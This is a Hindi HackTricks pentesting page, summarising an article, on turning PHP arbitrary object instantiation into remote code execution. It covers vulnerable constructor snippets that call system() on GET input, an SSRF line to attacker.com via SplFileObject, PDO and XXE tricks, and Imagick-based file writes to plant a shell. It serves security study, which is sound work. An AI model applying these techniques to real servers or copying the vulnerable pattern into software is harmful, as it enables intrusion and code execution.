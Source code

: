 # PHP - RCE ऑब्जेक्ट निर्माण का दुरुपयोग: नया $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

यह मूल रूप से एक सारांश है [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## परिचय

नए मनमाने ऑब्जेक्ट्स का निर्माण, जैसे कि `new $_GET["a"]($_GET["a"])`, रिमोट कोड निष्पादन (RCE) की ओर ले जा सकता है, जैसा कि एक [**लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विस्तृत किया गया है। यह दस्तावेज़ RCE प्राप्त करने के लिए विभिन्न रणनीतियों को उजागर करता है।

## कस्टम क्लासेस या ऑटोलोडिंग के माध्यम से RCE

सिंटैक्स `new $a($b)` का उपयोग एक ऑब्जेक्ट को इंस्टेंटिएट करने के लिए किया जाता है जहाँ **`$a`** क्लास नाम का प्रतिनिधित्व करता है और **`$b`** कंस्ट्रक्टर को पास किया गया पहला तर्क है। ये वेरिएबल्स उपयोगकर्ता इनपुट जैसे GET/POST से प्राप्त किए जा सकते हैं, जहाँ वे स्ट्रिंग्स या एरे हो सकते हैं, या JSON से, जहाँ वे अन्य प्रकारों के रूप में प्रस्तुत हो सकते हैं।

नीचे दिए गए कोड स्निपेट पर विचार करें:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस मामले में, `$a` को `App` या `App2` पर सेट करना और `$b` को एक सिस्टम कमांड (जैसे, `uname -a`) पर सेट करना उस कमांड के निष्पादन का परिणाम देता है।

**ऑटोलोडिंग फ़ंक्शन** का शोषण किया जा सकता है यदि ऐसी कोई कक्षाएँ सीधे सुलभ नहीं हैं। ये फ़ंक्शन आवश्यकतानुसार फ़ाइलों से कक्षाओं को स्वचालित रूप से लोड करते हैं और इन्हें `spl_autoload_register` या `__autoload` का उपयोग करके परिभाषित किया जाता है:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
autoloading का व्यवहार PHP संस्करणों के साथ भिन्न होता है, जो विभिन्न RCE संभावनाएँ प्रदान करता है।

## Built-In Classes के माध्यम से RCE

कस्टम क्लास या ऑटोलोडर्स की कमी में, **built-in PHP classes** RCE के लिए पर्याप्त हो सकती हैं। इन क्लासों की संख्या PHP संस्करण और एक्सटेंशन के आधार पर 100 से 200 के बीच होती है। इन्हें `get_declared_classes()` का उपयोग करके सूचीबद्ध किया जा सकता है।

रिफ्लेक्शन API के माध्यम से रुचि के कंस्ट्रक्टर्स की पहचान की जा सकती है, जैसा कि निम्नलिखित उदाहरण और लिंक [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) में दिखाया गया है।

**विशिष्ट विधियों के माध्यम से RCE में शामिल हैं:**

### **SSRF + Phar Deserialization**

`SplFileObject` क्लास अपने कंस्ट्रक्टर के माध्यम से SSRF को सक्षम बनाती है, जो किसी भी URL से कनेक्शन की अनुमति देती है:
```php
new SplFileObject('http://attacker.com/');
```
SSRF पुराने PHP संस्करणों में 8.0 से पहले deserialization हमलों का कारण बन सकता है, जो Phar प्रोटोकॉल का उपयोग करता है।

### **PDOs का शोषण करना**

PDO क्लास कंस्ट्रक्टर DSN स्ट्रिंग्स के माध्यम से डेटाबेस से कनेक्शन की अनुमति देता है, जो फ़ाइल निर्माण या अन्य इंटरैक्शन को सक्षम कर सकता है:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP के 5.3.22 और 5.4.12 तक के संस्करण `SoapClient` और `SimpleXMLElement` कंस्ट्रक्टर्स के माध्यम से XXE हमलों के प्रति संवेदनशील थे, जो libxml2 के संस्करण पर निर्भर करते हैं।

## RCE via Imagick Extension

एक **प्रोजेक्ट की निर्भरताओं** के विश्लेषण में, यह पाया गया कि **Imagick** का उपयोग **कमांड निष्पादन** के लिए नए ऑब्जेक्ट्स को इंस्टेंटिएट करके किया जा सकता है। यह कमजोरियों का लाभ उठाने का एक अवसर प्रस्तुत करता है।

### VID parser

फाइल सिस्टम में किसी भी निर्दिष्ट पथ पर सामग्री लिखने की VID parser क्षमता की पहचान की गई। इससे एक वेब-एक्सेसिबल डायरेक्टरी में PHP शेल रखने की संभावना बनती है, जिससे रिमोट कोड निष्पादन (RCE) प्राप्त होता है।

#### VID Parser + File Upload

यह noted किया गया है कि PHP अस्थायी रूप से अपलोड की गई फ़ाइलों को `/tmp/phpXXXXXX` में संग्रहीत करता है। Imagick में VID parser, **msl** प्रोटोकॉल का उपयोग करते हुए, फ़ाइल पथ में वाइल्डकार्ड को संभाल सकता है, जिससे अस्थायी फ़ाइल को चुने हुए स्थान पर स्थानांतरित करना संभव होता है। यह विधि फाइल सिस्टम के भीतर मनमाने फ़ाइल लेखन को प्राप्त करने के लिए एक अतिरिक्त दृष्टिकोण प्रदान करती है।

### PHP Crash + Brute Force

[**मूल लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में वर्णित एक विधि में ऐसी फ़ाइलें अपलोड करना शामिल है जो हटाने से पहले सर्वर क्रैश को ट्रिगर करती हैं। अस्थायी फ़ाइल के नाम को ब्रूट-फोर्स करके, Imagick के लिए मनमाना PHP कोड निष्पादित करना संभव हो जाता है। हालाँकि, यह तकनीक केवल ImageMagick के एक पुराने संस्करण में प्रभावी पाई गई।

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
